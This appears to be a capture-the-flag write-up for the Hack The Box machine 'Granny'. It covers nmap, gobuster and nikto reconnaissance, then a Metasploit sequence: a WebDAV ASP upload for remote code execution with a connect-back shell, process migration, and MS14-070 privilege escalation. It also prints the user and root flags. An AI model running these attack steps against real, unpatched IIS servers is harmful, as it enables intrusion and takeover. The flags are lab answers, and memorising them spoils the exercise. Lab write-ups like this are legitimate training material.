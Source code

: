 ### IP
`10.10.10.15`

# Recon

### nmap
`nmap -sC -sV 10.10.10.15 -o Grannynmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-19 11:27 EST
Nmap scan report for 10.10.10.15
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Thu, 19 Nov 2020 16:31:18 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.73 seconds
```
* Looks like theres a webserver on port 80
* We can see that WebDAV is running

### Gobuster
`gobuster dir -u http://10.10.10.15/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobusterScan.txt`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.15/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/19 11:32:36 Starting gobuster
===============================================================
/_private (Status: 301)
/_vti_bin/shtml.dll (Status: 200)
/_vti_bin (Status: 301)
/_vti_log (Status: 301)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/aspnet_client (Status: 301)
/images (Status: 301)
/Images (Status: 301)
===============================================================
2020/11/19 11:32:49 Finished
===============================================================
```
* looks like any capialization of a directory works, which confirms that this is a windows machine
* `/_vti_bin` looks interesting
	* a quick google search reveals that the machine is probably running a [microsoft sharepoint server](https://social.technet.microsoft.com/Forums/sharepoint/en-US/9d496bd1-170f-4b87-b4b3-5f9ec760921f/sharepoint-service-30-vtibin-folder?forum=sharepointadminlegacy)
	* there's also some indication online that the [directory should not be accessible](https://hackmag.com/security/sharepoint-serving-the-hacker/), which means we have a vulnerability we can exploit  

### nikto
`nikto -h 10.10.10.15`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2020-11-19 11:30:52 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-397: HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (LOCK UNLOCK SEARCH PROPFIND MKCOL COPY PROPPATCH listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_private/: FrontPage directory found.
+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8018 requests: 0 error(s) and 32 item(s) reported on remote host
+ End Time:           2020-11-19 11:40:35 (GMT-5) (583 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
* We can look at `/_vti_inf.html` for some extra info
	* Looking at the html source, it says `<!-- _vti_inf.html version 0.100>` and `FPVersion="5.0.2.6790"`
* `_vti_bin/fpcount.exe` apparently might let us execute arbitrary commands

# Exploitation

### webdav
* On `msfconsole`, we can run the following:
1. `search webdav`
2. `use exploit/windows/iis/iis_webdav_upload_asp` in order to get remote code execution
3. `set RHOST 10.10.10.15`
4. `set LHOST tun0` in order to have the machine connect back to yours
5. `run`
6. `ps` to find processes running with `NT AUTHORITY`
7. `migrate 3416` (pick the process id that your machine is running as described above)
8. `bg` to put the session into the background (keep note of the number)
9. `use post/multi/recon/local_exploit_suggester` in order to find scripts for privesc
10. `set SESSION 1` (use whatever session number your session was backgrounded to)
11. `set SHOWDESCRIPTION true` to see more details for each suggestion
12. `run`
13. `use exploit/windows/local/ms14_070_tcpip_ioctl` because we want to elevate the system
14. `set SESSION 1`
15. `set LHOST tun0`
16. `run`
```
* Now, we should have admin access. If not, go through the process and migrate steps again
* We can cd to `C:\Documents and Settings\Lakis\Desktop`
	* Using the `cat` command on the meterpreter or the `more` command on the shell, we get the user flag: `700c5dc163014e22b3e408f8703f67d1`

* We can cd to `C:\Documents and Settings\Administrator\Desktop>` to get the root flag: `aa4beed1c0584445ab463a6747bd06e9`

# Notes
* When doing stuff with webdav, there are some useful tools to use:

### davtest
`davtest -url http://10.10.10.15` will give you a list of files that you can upload, rename, edit, etc.

### dave
`dave 10.10.10.15` will show you the full directory of the website, let you traverse it, and even let you upload files
